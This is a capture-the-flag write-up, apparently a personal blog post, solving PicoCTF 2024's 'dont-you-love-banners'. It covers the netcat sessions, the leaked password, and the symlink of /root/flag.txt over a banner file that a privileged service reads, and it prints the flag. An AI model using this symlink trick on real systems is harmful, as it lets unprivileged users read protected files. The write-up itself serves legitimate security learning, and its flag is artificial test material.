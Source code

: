 ```yaml
---
title: "Pico CTF 24 - dont-you-love-banners"
date: 2024-03-26T16:00:00-05:00
draft: false
tags: ['ctf','pico','general']
series: PicoCTF 2024
summary: "Abusing symlinks to include and subsequently display arbitrary textfiles in place of standard SSH banners."
---
```


## Introduction

dont-you-love-banners was a challenge in PicoCTF 2024. The challenge was classified as General Skills, and was quit straightforward, despite having quite a bit of chatter in the PicoCTF Discord.

The description tells us that there is a server leaking "crucial information" on one port, and then a an application running on another port on the same machine. IT also lets us know that the flag is in `/root`. We're given two hints here, one advises a small amount of password cracking or guessing, and the other asks about symlink.

## Solving

### The Leaky Machine

So we're going to start by exploring the leaked information from the initial server by netcatting that host and port. While the challenge does not specify this directly, given that we've got some prerequisite information about banners, I figured this would be a good starting point. And I was very correct, this is serving a banner with a password in it.

```plaintext
┌──(rem λ redmint)-[~]
└─$ nc tethys.picoctf.net 58837
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

### The Exploit

So now we have a password, we can see what it goes to.
We're going to step through a bit of question and answer, and the results were fairly trivial to google.

```plaintext
┌──(rem λ redmint)-[~]
└─$ nc tethys.picoctf.net 63259
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper

player@challenge:~$ ls
ls
banner  text
```

Now we have a shell. I started by catting out banner and text, to see where I'm at and what I'm dealing with.

```plaintext
player@challenge:~$ cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
keep digging
```

We can see that the banner we saw when netcatting onto the machine is in a text document. This will become important later!

For now, let's go visit the flag and see if we can cat it out.

```plaintext
player@challenge:~$ cd /root
player@challenge:/root$ ls
flag.txt  script.py
player@challenge:/root$ cat flag.txt
cat: flag.txt: Permission denied
```

Not quite that easy. However, our hints do give us a good launching point, which is that a symlink might be the key here. We can try to symlink the flag to take the place of the banner, and see if it's being read by something with a higher privilege level.

```bash
player@challenge:/root$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
ln: failed to create symbolic link '/home/player/banner': File exists
player@challenge:/root$ rm ~/banner
rm ~/banner
player@challenge:/root$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
player@challenge:/root$ cd ~
player@challenge:~$ cat banner
cat: banner: Permission denied
```

We still can't cat this banner out, but it was served when we connected before, so what if we simply disconnect and reconnect?

```plaintext
┌──(rem λ redmint)-[~]
└─$ nc tethys.picoctf.net 63259
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}

what is the password? 
```

Flag obtained. I didn't spend too much time looking into this challenge, but I believe the initial interaction on port 63259 was through a Python application which dropped us into a shell. The Python application was reading the contents of `banner` from the home directory of that user. As such, it can be assumed that the Python program had elevated privileges to read the file we symlinked. So even though **we** couldn't read it, the Python application dropping us into the shell could, and reconnecting just spit it back out at us.

## Summary

Fairly easy challenge, but worth a large sum of points. A good exercise in symlinks and understanding privileges associated with files in Linux. I believe this was one of the first challenges I solved in Pico 2024, and I'm quite glad I went down the road I did right away, as I can see a world where people were scratching their heads looking for privesc or a more stable shell given the first hint of light password cracking.
